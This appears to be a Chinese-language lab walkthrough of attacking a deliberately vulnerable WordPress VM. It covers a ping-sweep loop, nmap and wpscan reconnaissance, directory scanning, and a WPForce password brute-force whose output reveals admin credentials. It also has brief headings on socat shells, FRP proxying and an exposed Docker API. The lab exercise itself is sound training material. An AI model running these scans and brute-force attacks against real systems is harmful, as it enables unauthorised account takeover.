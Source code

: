 # mynew
WPForce
socat拿稳定shell
for i in {1..254}; do (ping -c 1 172.18.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
端口探测脚本：
FRP代理路： 
发现docker容器的拉取文件！remote API未授权访问 

# 


VMware双击打开nat模式即可！在界面会显示iP信息！

1、nmap 192.168.253.182 -p- -A

22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-generator: WordPress 4.8.1

nmap扫到了22和8000端口都打开了，可以看到这又是wordpress CMS


2、web信息收集

访问：http://192.168.253.182:8000/

wpscan --url http://192.168.253.182:8000/ -eu
存在：bob用户

dirb http://192.168.253.182:8000/

登录界面：
http://192.168.253.182:8000/admin

nikto发现：
/wp-admin/admin-ajax.php


3、暴力破解

WPForce爆破：

https://github.com/n00py/WPForce
proxychains4 git clone https://github.com/n00py/WPForce.git

密码字典合集：
https://github.com/danielmiessler/SecLists

python wpforce.py -i user.txt -w 10-million-password-list-top-10000.txt -u http://192.168.253.182:8000/

---------
Now the brute force will begin!  >:)

--------------------------
[bob : Welcome1] are valid credentials!  - THIS ACCOUNT IS ADMIN
